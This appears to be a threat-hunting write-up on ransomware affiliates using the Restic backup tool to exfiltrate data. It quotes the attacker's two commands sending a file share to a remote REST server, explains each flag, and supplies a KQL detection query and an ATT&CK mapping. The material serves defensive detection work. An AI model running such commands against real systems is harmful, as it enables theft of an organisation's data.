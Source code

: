 
# Restic | Data Exfiltration

# Summary:

Restic is an open-source backup tool that supports backing up data to various storage types, including local directories, SFTP servers, and cloud services like Amazon S3, Google Cloud Storage, and Microsoft Azure. Recently, it has been observed in use by the BlackCat Ransomware group.

## Attribution & Threat Actor
- BlackCat Ransomware Affiliates

## Diagram Overview of Attack/Methods STIX2: 

[STIX Visualizer](https://oasis-open.github.io/cti-stix-visualization/?url=https://raw.githubusercontent.com/CTI-Driven/Advanced-Threat-Hunting-Ransomware-Groups/main/Arsenals/Restic/STIX/Restic.json)

![Diagram Overview of Attack/Methods STIX2](Restic.png) 

## Technical Details:

The threat actor used Restic to perform the data exfiltration. Below are the two primary commands executed by the attacker:

## a) Initializing the Backup Repository
```bash
restic.exe -r rest:http://195.123.226.84:8000/ init --password-file ppp.txt
```

- **restic.exe**: The Restic binary used for the backup operation.
- **-r rest:http://195.123.226.84:8000/**: This specifies the backup repository location. The backup data was sent over HTTP to a remote server (`195.123.226.84`) running a REST service on port 8000.
- **init**: Initializes a new backup repository at the specified location.
- **--password-file ppp.txt**: The `ppp.txt` file contains the password for accessing the repository. This password file is required to encrypt/decrypt the backup data.

## b) Executing the Data Exfiltration
```bash
restic.exe -r rest:http://195.123.226.84:8000/ --password-file ppp.txt --use-fs-snapshot --verbose backup "F:\Shares\<REDACTED>\<REDACTED>"
```

- **backup "F:\Shares\<REDACTED>\<REDACTED>"**: This command backs up the data from the local directory located at `F:\Shares\<REDACTED>\<REDACTED>`.
- **--password-file ppp.txt**: Uses the password file to authenticate to the backup repository.
- **--use-fs-snapshot**: This option enables Restic to leverage the **Volume Shadow Copy Service (VSS)**, which allows it to create backups of files that may be locked by other processes. This is particularly useful for backing up active files that are currently in use.
- **--verbose**: Prints live output during the backup process, providing status updates on the exfiltration process.


## Detection Opportunities (KQL):

```kusto
// Replace "Timestamp" with "TimeGenerated" when running this KQL query in Microsoft Sentinel.
//Comment: A true positive would involve the following:
//-> restic.exe -r rest:http://195.123.226[.]84:8000/ init --password-file ppp.txt
//-> restic.exe -r rest:http://195.123.226[.]84:8000/ --password-file ppp.txt --use-fs-snapshot --verbose backup "F:\Shares\<REDACTED>\<REDACTED>"
//-> Preparing a new repository CommandLine activity using restic
//-> Local: restic init --repo /srv/restic-repo
//-> SFTP: restic -r sftp:user@host:/srv/restic-repo init
//-> REST Server: restic -r rest:http://host:8000/ init
//-> Amazon S3: restic -r s3:s3.us-east-1.amazonaws.com/bucket_name init
//-> Minio Server: restic -r s3:http://localhost:9000/restic init
//-> OpenStack Swift: restic -r swift:container_name:/path init
//-> Wasabi: restic -o s3.bucket-lookup=dns -o s3.region=<OSS-REGION> -r s3:https://<OSS-ENDPOINT>/<OSS-BUCKET-NAME> init
//-> Backblaze B2: restic -r b2:bucketname:path/to/repo init
//-> Microsoft Azure Blob Storage: restic -r azure:foo:/ init
//-> Google Cloud Storage: restic -r gs:foo:/ init
//-> rclone: restic -r rclone:foo:bar init
/Title: Detect the Use of Restic for Backup Repository Initiation and Data Exfiltration.
//QKL Advanced hunting query:
let timeframe = 24hr;
// Detection 1: Traffic related to Restic API HTTP header request
let Restic_API_HTTPRequest = (
    DeviceNetworkEvents
    | where Timestamp >= ago(timeframe)
    | where ActionType == "HttpConnectionInspected"
    | extend AdditionalFields_info = parse_json(AdditionalFields)
    | where  AdditionalFields_info.uri in ("application/vnd.x.restic.rest.v1", "application/vnd.x.restic.rest.v2")
          or AdditionalFields_info.user_agent contains "restic"
);
// Detection 2: Process commands events related to Restic tool that could be used to initiate the backup repository and exfiltration
let Restic_ProcessCommandsEvents = (
    DeviceProcessEvents
    | where Timestamp >= ago(timeframe)
    | where ((ProcessCommandLine has_all (" -r", " :/", " init") or ProcessCommandLine has_all (" --repo", ":/", " init"))
     or ProcessCommandLine has_any (" backup", " init")
     and (   (ProcessCommandLine has_all (" -r", " sftp:"))
           or(ProcessCommandLine has_all (" -r", " rest:http"))
           or(ProcessCommandLine has_all (" -r", " s3:s3.", "amazonaws"))
           or(ProcessCommandLine has_all (" -r", " s3:http"))
           or(ProcessCommandLine has_all (" -r", " swift:"))
           or(ProcessCommandLine has_all (" -r", " b2:"))
           or(ProcessCommandLine has_all (" -r", " azure:"))
           or(ProcessCommandLine has_all (" -r", " gs:"))
           or(ProcessCommandLine has_all (" -r", " gs:"))
           or(ProcessCommandLine has_all (" -r", " rclone:"))
)));
// Combine all detections
let Suspicious_Restic_data_Exfiltration_Activities = (
    union Restic_API_HTTPRequest, Restic_ProcessCommandsEvents
    | summarize arg_max(Timestamp, *) by DeviceId
    | order by Timestamp asc
);Suspicious_Restic_data_Exfiltration_Activities
```

## ATT&CK Techniques:

1. **Exfiltration**
    - **T1048 - Exfiltration Over Alternative Protocol**:  
       The threat actor utilized Restic, an open-source backup tool, to exfiltrate data from a file server by backing up directories over HTTP to a remote server. The tool used the rest backend to store data on a remote REST server. 

## References:
- https://thedfirreport.com/2024/09/30/nitrogen-campaign-drops-sliver-and-ends-with-blackcat-ransomware/#exfiltration
- https://restic.net
